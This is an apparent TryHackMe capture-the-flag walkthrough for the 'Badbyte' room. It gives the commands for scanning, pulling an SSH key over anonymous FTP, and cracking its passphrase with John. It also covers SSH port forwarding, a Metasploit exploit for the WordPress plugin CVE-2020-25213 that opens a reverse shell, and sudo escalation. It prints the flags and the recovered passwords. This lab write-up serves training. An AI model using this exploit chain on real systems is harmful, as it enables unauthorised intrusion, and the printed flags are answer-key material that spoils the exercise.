

# Badbyte


https://tryhackme.com/room/badbyte




## Task 2 Reconnaissance

```bash
rustscan -a 10.10.99.160 -- -n -sVC
```


#### How many ports are open?


`2`


#### What service is running on the lowest open port?


`ssh`


#### What non-standard port is open?


`30024`


#### What service is running on the non-standard port?


`ftp`


## Task 3 Foothold

#### What username do we find during the enumeration process?

```bash
lftp -u anonymous, -p 30024 10.10.99.160
ftp > ls -lA
ftp > cat note.txt
ftp > get id_rsa
```



`errorcauser`


#### What is the passphrase for the RSA private key?

```bash
chmod 400 id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
ssh -i id_rsa errorcauser@10.10.99.160
```



`cupcake`


## Task 4 Port Forwarding

#### What main TCP ports are listening on localhost?

```bash
vim /etc/proxychains4.conf
ssh -nNTD 1337 -i id_rsa errorcauser@10.10.99.160
```


```bash
proxychains nmap 127.0.0.1
ssh -nNTL 80:127.0.0.1:80 -i id_rsa errorcauser@10.10.99.160
```



`80,3306`


#### What protocols are used for these ports?


`http,mysql`


## Task 5 Web Exploitation

#### What CMS is running on the machine?

```bash
nmap -n -sVC -p 80 127.0.0.1
```



`WordPress`


#### Can you find any vulnerable plugins?

```bash
nmap -n -p80 --script http-wordpress-enum \
     --script-args type="plugins",search-limit=1500 127.0.0.1
```


#### What is the CVE number for directory traversal vulnerability?



`CVE-2020-11738`


#### What is the CVE number for remote code execution vulnerability?



`CVE-2020-25213`


#### There is a metasploit module for the exploit. You can use it to get the reverse shell. If you are feeling lucky you can follow any POC( Proof of Concept).

```bash
msfconsole -q
msf > search CVE-2020-25213
msf > use 0
msf > set RHOSTS 127.0.0.1
msf > set LHOST 10.6.9.176
msf > run
```


#### What is the name of user that was running CMS?

```bash
meterpreter > getuid
```


`cth`


#### What is the user flag?

```bash
meterpreter > search -d / -f user.txt
meterpreter > cat //home/cth/user.txt
```



`THM{227906201d17d9c45aa93d0122ea1af7}`


## Task 6 Privilege Escalation

#### What is the user's **old** password?

```
meterpreter > shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ls -lA /var/log
cat /var/log/bash.log
su - cth
```



`G00dP@$sw0rd2020`


#### What is the root flag?

```bash
sudo -l
sudo cat /root/root.txt
```



`THM{ad485b44f63393b6a9225974909da5fa}`


## Reference




